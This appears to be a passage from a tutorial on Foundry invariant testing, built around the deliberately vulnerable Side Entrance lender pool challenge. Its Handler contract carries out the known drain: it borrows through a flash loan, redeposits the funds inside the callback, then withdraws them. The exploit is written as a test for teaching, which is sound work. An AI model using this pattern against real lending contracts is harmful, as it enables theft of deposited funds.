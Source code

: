 ```solidity
import {SideEntranceLenderPool} from "../../src/SideEntranceLenderPool.sol";

import "forge-std/Test.sol";

contract Handler is Test {
    // the pool contract
    SideEntranceLenderPool pool;
    
    // used to check if the handler can withdraw ether after the exploit
    bool canWithdraw;

    constructor(SideEntranceLenderPool _pool) {
        pool = _pool;

        vm.deal(address(this), 10 ether);
    }
    
    // this function will be called by the pool during the flashloan
    function execute() external payable {
        pool.deposit{value: msg.value}();
        canWithdraw = true;
    }
    
    // used for withdrawing ether balance in the pool
    function withdraw() external {
        if (canWithdraw) pool.withdraw();
    }

    // call the flashloan function of the pool, with a fuzzed amount
    function flashLoan(uint amount) external {
        pool.flashLoan(amount);
    }

    receive() external payable {}
}
```

We have defined functions in the handler contract that call the `SideEntranceLenderPool` contract functions. This is so we can test more edge cases and practically exploit the vulnerability.

The handler contract inherits the `forge-std Test` as stated earlier, and the `vm.deal` method is used inside the constructor of the handler contract to give the contract some ether.

### Invariant Targets and test helpers

Foundry comes with test helper functions in the forge-std library that allows us to specify our target contracts, target artifacts, target selectors, and target artifacts selectors.

Some helper functions are
- `targetContract(address newTargetedContract_)`
- `targetSelector(FuzzSelector memory newTargetedSelector_)`
- `excludeContract(address newExcludedContract_).`
